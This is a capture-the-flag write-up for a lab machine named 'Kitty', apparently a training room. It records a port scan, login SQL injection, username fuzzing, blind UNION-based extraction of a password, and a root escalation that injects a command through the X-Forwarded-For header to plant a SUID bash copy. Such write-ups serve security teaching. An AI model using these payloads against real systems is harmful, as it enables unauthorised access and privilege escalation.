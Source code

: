 # Kitty

10.10.237.211

## nmap

```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b0:c5:69:e6:dd:6b:81:0c:da:32:be:41:e3:5b:97:87 (RSA)
|   256 6c:65:ad:87:08:7a:3e:4c:7d:ea:3a:30:76:4d:04:16 (ECDSA)
|_  256 2d:57:1d:56:f6:56:52:29:ea:aa:da:33:b2:77:2c:9c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## http 80

sqli: user'-- -

```sh
wfuzz --hh 1147 -c -w /usr/share/wordlists/seclists/Usernames/Names/names.txt  -d "username=FUZZ%27--+-&password=sqdfqsdfsqdfsdf" http://10.10.181.136/index.php
```
=> kitty

### SQLI

```sql
' UNION SELECT 1,2,3,4-- -
```

=> 4 columns

#### DB (bf_databases.py)

```sql
' UNION SELECT 1,2,3,4 FROM information_schema.schemata WHERE schema_name LIKE BINARY "a%"-- -
```

- devsite
- information_schema
- mywebsite
- performance_schema

#### TABLES (bf_tables.py)

```sql
' UNION SELECT 1,2,3,4 FROM information_schema.tables WHERE table_schema = 'mywebsite' AND table_name LIKE BINARY 'u%'-- -
```

For mywebsite:
- siteusers

For devsite:
- siteusers

#### COLUMNS (bf_columns.py)

```sql
' UNION SELECT 1,2,3,4 FROM information_schema.COLUMNS WHERE table_schema = 'mywebsite' AND table_name = 'siteusers' AND COLUMN_NAME LIKE BINARY 'u%'-- -
```

For mywebsite:
- created_at
- id
- password
- username

For devsite:
- created_at
- id
- password
- username

#### PASSWORD (bf_password.py)

```sql
' UNION SELECT 1,2,3,4 FROM siteusers WHERE username = 'kitty' AND password LIKE BINARY '{result}{char}%'-- -
```

L0ng_Liv3_KittY

## foothold

kitty:L0ng_Liv3_KittY

## root

In /opt/log_checker.sh, it reads content of /var/www/development/logged

It is filled when a forbidden word is used in index.php using field X-Forwarded-For

To access this page, we check /etc/apache2/sites-enabled/dev_site.conf
-> <VirtualHost 127.0.0.1:8080>

To visit it:
ssh -L 8081:localhost:8080 kitty@10.10.39.28

Use the password 'sleep' to trig "SQL Injection detected. This incident will be logged"

In burp:
X-Forwarded-For: && cp /bin/bash /tmp/kikou && chmod +s /tmp/kikou #
